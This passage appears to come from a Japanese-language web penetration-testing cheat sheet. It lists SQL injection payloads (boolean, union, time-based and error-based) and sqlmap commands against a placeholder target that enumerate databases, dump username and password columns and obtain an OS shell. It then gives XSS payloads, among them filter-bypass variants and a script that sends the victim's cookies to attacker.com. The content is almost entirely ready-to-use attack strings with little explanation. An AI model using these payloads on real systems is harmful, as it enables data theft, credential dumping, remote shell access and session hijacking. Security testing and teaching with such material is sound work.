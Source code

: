 **手動テスト:**

```sql
# 基本テスト
' OR '1'='1
' OR 1=1--
" OR "1"="1

# Union-based
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 1,@@version,3--

# Time-based blind
' OR SLEEP(5)--
'; WAITFOR DELAY '00:00:05'--

# Error-based
' AND 1=CONVERT(int,(SELECT @@version))--
```

**SQLmap:**

```bash
# 基本スキャン
sqlmap -u "http://target.com/page?id=1"

# POSTパラメータ
sqlmap -u "http://target.com/login" --data="username=admin&password=pass"

# Cookie
sqlmap -u "http://target.com/page" --cookie="PHPSESSID=abc123"

# データベース列挙
sqlmap -u "http://target.com/page?id=1" --dbs
sqlmap -u "http://target.com/page?id=1" -D database --tables
sqlmap -u "http://target.com/page?id=1" -D database -T users --columns
sqlmap -u "http://target.com/page?id=1" -D database -T users -C username,password --dump

# OSシェル取得
sqlmap -u "http://target.com/page?id=1" --os-shell
```

### XSS（Cross-Site Scripting）

**Reflected XSS:**

```html
<!-- 基本ペイロード -->
<script>alert('XSS')</script>

<!-- 難読化 -->
<img src=x onerror=alert('XSS')>
<svg/onload=alert('XSS')>

<!-- クッキー窃取 -->
<script>document.location='http://attacker.com/steal.php?c='+document.cookie</script>

<!-- フィルタバイパス -->
<scr<script>ipt>alert('XSS')</scr</script>ipt>
<ScRiPt>alert('XSS')</ScRiPt>
```

